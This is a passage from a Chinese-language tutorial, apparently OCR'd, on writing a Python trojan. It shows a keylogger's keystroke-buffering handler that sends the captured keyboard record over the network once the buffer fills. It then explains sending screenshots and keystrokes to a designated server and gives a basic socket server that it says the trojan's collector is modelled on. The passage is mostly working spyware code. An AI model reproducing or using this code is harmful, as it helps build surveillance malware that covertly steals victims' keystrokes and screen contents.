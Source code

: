 ```
        elif in_str == 'Right':
            # 第一次执行right操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 1
            else:
                postion[0] = postion[0] + 1

            if postion[0] >= len(input_str_content):
                print u"已经到达当前缓冲区末尾"
                postion[0] = len(input_str_content) - 1
        else:
            if postion[0] is None:
                postion[0] = 0
            input_str_content.insert(postion[0] + 1, in_str)
            postion[0] = postion[0] + 1
        # 缓存区已经满了，此时需要将缓冲区的内容处理
        # net_word_handler是进行内容处理的函数，保存到本地文件，
        # 也可以进行网络传输, 取决于传入的处理函数
        if len(input_str_content) >= str_cached_length:
            ret = net_work_handler("".join(input_str_content))
            if not ret:
                print u"网络错误，无法发送键盘记录文件,缓冲区已满, 程序结束"
                sys.exit(-2)
            input_str_content[:] = []
        # TODO content_length + 1
    return char_handler
```
## 2.5 数据进行网络传输

根据前面的步骤我们已经获取我们所需要的屏幕截图和键盘输入的数据，接下来我们需要将这些数据发送到指定的服务器。在这里需要了解下Python的网络编程的相关知识。首先介绍服务端的编程的基本步骤:

建立一个socket套接字对象
绑定这个套接字到服务器的ip和端口号
设置最大链接数量
接受客户端的链接
与客户端进行通讯
关闭相关资源
用Python实现的代码如下，这是一个最基本服务器的实现，该木马程序中的示例服务器也是基于这个模型进行的。
```
import socket
import json

# 开启ip和端口
ip_port = ('127.0.0.1', 8888)
# 生成一个句柄
sk = socket.socket()
# 绑定ip端口
sk.bind(ip_port)
# 最多连接数
sk.listen(5)
# 自定义的数据处理函数
def data_handle(data):
    pass
# 开启死循环，接受客户端的请求
while True:
    conn, addr = sk.accept()
    header_message = conn.recv(1024)
    # 获取客户端请求数据
    client_data = conn.recv(1024*10)
    # 数据进行业务处理
    data_handle(client_data)
    conn.close()
sk.close()
```